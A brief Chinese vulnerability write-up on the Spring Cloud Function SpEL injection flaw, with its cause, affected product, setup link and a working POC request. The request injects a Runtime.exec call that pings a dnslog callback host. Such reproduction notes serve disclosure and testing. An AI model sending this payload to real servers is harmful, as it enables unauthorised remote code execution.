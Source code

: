 # Spring Cloud Function SPEL 远程命令执行漏洞

# Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问

![image-20220519160206177](/images/202205191602220.png)

发送POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求

![image-20220519160240168](/images/202205191602216.png)

